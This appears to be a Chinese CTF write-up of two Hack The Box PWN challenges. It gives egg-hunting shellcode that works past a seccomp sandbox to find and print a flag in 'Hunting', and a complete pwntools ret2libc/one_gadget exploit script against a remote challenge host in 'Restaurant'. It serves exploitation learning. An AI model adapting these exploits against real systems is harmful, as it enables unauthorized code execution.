 # HTB PWN 刷题记录 2

> 话说都是EASY难度题目难度差距还是很大啊，真的学到不少东西

## Hunting

也是很有意思的一题

> EASY难度的32位题，没有开启Canary其他保护全开，开了沙盒禁用了open和execve相关函数

伪代码如下：

![](https://pic.imgdb.cn/item/6285f09a0947543129735db7.png)

简单来说就是把flag文件放到一个随机的mmap开辟的空间中，之后可以任意执行0x3c大小的shellcode，同时开启了seccomp沙盒，禁用了open系和execve系函数。

这里需要到一种叫Egg hunting的技术~~（翻译过来是...复活节彩蛋?）~~

这题拿到flag需要下面三步：

- 由于alarm会在3s之后执行退出，所以首先我们需要修改alarm函数参数
- 之后使用利用`access`的Egg hunting的技术查找flag的位置(也就是查找'HTB{'字符串)
- 最后利用`write`输出flag

首先就是执行一个alarm，但是参数的时间延长来防止3s之后就退出

```python
payload = '''
global _start

section .text
'''
payload += '''
_start:
    // alarm(0x64)
    push 0x64;
    pop ebx;
    push 0x1b;
    pop eax;
    int 0x80;
'''
```

之后利用**egg hunting**技术查找egg，也就是字符串'HTB{'的位置（egg hunting需要用到access系统调用）

注释内容写的比较清楚

````python
payload += '''
    // egg hunting ==> find 'HTB{'
    mov ebx, 0x7b425448;  // ebx = 'HTB{'
    mov edx, 0x5FFFFFFF;  // search from 0x5FFFFFFF
    xor ecx, ecx;         // clean exc for access args
    push 0x21;
    pop eax;              // eax = 33  ==> access
next4k:
    or dx, 0xfff;
eggfind:
    inc edx;              // EDX=4096=4k
    pushad;               // push eax ecx edx ebx esp ebp esi edi
    lea ebx, [edx+4];     // check 4096+4 for access's ebx
    int 0x80;             // syscall access(ebx,ecx)

    cmp al, 0xf2;         // check page
    popad;
    jz next4k;

    cmp [edx],ebx;        // ebx = egg , [edx] = ogg
    jnz eggfind;           // not find egg
'''
````

最后找到地址之后调用write输出可以拿到flag

````python

payload += '''
    // write(1,egg_addr,0x30)
    push 0x1;
    pop ebx;              // fd = 1
    mov ecx,edx;          // addr = egg
    push 0x30;
    pop edx;              // len = 0x30
    push 0x4;
    pop eax;
    int 0x80;             // syscall write
    jmp _start;           // go to begin
'''
````

参考：

[PWN Hunting challenge — HTB. Writeup includes — Egg hunting &&… | by Karol Mazurek | Medium](https://karol-mazurek95.medium.com/pwn-hunting-challenge-htb-abc635c897db)

[Linux Egg Hunter - x86 - OpenTechTips](https://opentechtips.com/linux-egg-hunter-x86/)

[x64 Egg hunting in Linux systems – Pentester's life (pentesterslife.blog)](https://pentesterslife.blog/2017/11/24/x64-egg-hunting-in-linux-systems/)

[【技术分享】Egg Hunting：一个非常短的shellcode - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/87321)

## Restaurant

>  白给64位栈溢出

没开canary和pie的栈溢出，泄露地址打ogg就出了

~~HTB的EASY难度题差距有点大啊~~

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='i386')
context.log_level = 'debug'
libc = ELF('./libc.so.6')
elf = ELF("./restaurant")

local = 0

if local:
    p = process("./restaurant")
else:
    p = remote("138.68.161.126","31510")
    sleep(1)


def debug(p,cmd=0):
    if local:
        gdb.attach(p)
        if cmd:
            pause()
    else:
        pass


p.sendlineafter(">","1")
p.recvuntil("You can also order something else.")

pop_rdi = 0x00000000004010a3
payload = 'a'*0x28+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x000000000400E4A)

p.sendlineafter(">",payload)
p.recvuntil('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')

addr = u64(p.recvuntil("\x7f")[-7:].ljust(8,'\x00')) >> 8

libc_base = addr - libc.sym['puts']
print hex(libc_base)


ogg = [0x4f3d5,0x4f432,0x10a41c]
payload = 'a'*0x28
payload += p64(libc_base+ogg[0])
p.sendlineafter(">",payload)

debug(p)
p.interactive()
````

